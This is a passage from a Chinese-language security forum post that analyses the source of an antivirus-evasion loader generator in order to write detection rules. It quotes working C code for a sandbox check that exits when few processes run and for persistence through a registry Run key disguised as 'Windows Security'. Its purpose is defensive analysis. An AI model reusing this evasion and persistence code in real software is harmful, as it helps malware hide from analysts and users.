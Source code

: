 遍历进程，根据其数量的反沙箱函数：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-5e497e17b1733d3377d3b091762ea37c1a34fae3.png)

把免杀文件路径写入开机启动注册表的自启动函数：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-5d31c099537c08e30ccc96e2ea712d60984ac1a3.png)

分开选择调用反沙箱和自启动的条件函数：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9142b7acc81480f72aabc6ee4725328cfb09245c.png)

主要的 GetShellcodeFromRes 方法，从函数名可以知道前面操作中程序会把用户的 shellcode 加密并嵌入免杀文件 loader.exe 资源中，然后通过调用该函数把其提取出来并解密。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8ad674fc8dbbb620a95e304bedcbe725b0918fcc.png)

###### 单独的 public.hpp：

本来就着上面那个放置在外部的 public.hpp 的函数来做规则的，结果发现很多免杀文件匹配不上，进一步查看源码才发现原来还有单独的 public.hpp。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3fd366ad788029cc719f1091cbec42f5899d48ce.png)

每个单独的 public.hpp 的代码都不尽相同，主要集中在最后 GetShellcodeFromRes 函数上，它们会根据所选的免杀的类型，进行特定的函数调用。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ad67f792396c0665ad0b4b579e933a9a70677637.png)

#### 免杀特征提取：

##### 共有代码及其机器码摘录：

本着寻找最通用代码以写出最少行规则的原则，决定挑选所有 public.hpp 都存在的下面三个函数，分别是反沙箱，自启动，和它们的条件函数。

```C
void AntiSimulation()
{
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot)
    {
        return;
    }
    PROCESSENTRY32 pe = { sizeof(pe) };
    int procnum = 0;
    for (BOOL ret = Process32First(hSnapshot, &amp;pe); ret; ret = Process32Next(hSnapshot, &amp;pe))
    {
        procnum++;
    }
    if (procnum &lt;= 40)  //判断当前进程是否低于40个，目前见过能模拟最多进程的是WD能模拟39个
    {
        exit(1);
    }
}

void AutoStart()
{
    HKEY hKey;
    char currentpath[256] = { 0 };
    GetModuleFileNameA(NULL, currentpath, 256);
    if (!RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &amp;hKey))
    {
        RegSetValueExA(hKey, "Windows Security", 0, REG_SZ, (PUCHAR)currentpath, strlen(currentpath));
        RegCloseKey(hKey);
    }
```